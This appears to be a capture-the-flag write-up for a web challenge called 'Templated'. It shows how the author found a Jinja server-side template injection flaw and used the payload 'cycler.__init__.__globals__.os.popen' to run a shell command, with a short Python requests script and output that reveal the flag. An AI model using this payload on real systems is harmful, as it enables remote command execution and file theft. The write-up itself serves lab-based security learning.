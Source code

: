 # Templated
![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/aba87051-5004-4d60-890d-df0c00ff4308)

## Desciption
Can you exploit this simple mistake?

## Solution
![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/a12def89-9cbe-403c-86b0-93b5065d84d1)
From the interface, it can be seen that the web application uses Jinja.

My idea is to perform Remote Code Execution (RCE) using the common Server-Side Template Injection (SSTI) vulnerability in Jinja.

When accessing a non-existent path, the web application responds with a notification.

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/7f440ad8-9a43-4645-b3fc-60ad1601d18e)

I tried the payload "7*7" and received the result "49".

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/b4135f45-d96f-4707-85dd-82687b1eef52)

you can refer to some commonly used payloads for Jinja SSTI vulnerabilities [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md):

My payload: `http://143.110.169.131:31927/{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}`

Script python:
```python=
import requests

url = "http://143.110.169.131:31927/"

payload = "{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"

r = requests.get(url + payload)

print(r.text)
```
Output:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 6.py

<h1>Error 404</h1>
<p>The page '<str>HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}
</str>' could not be found</p>
```

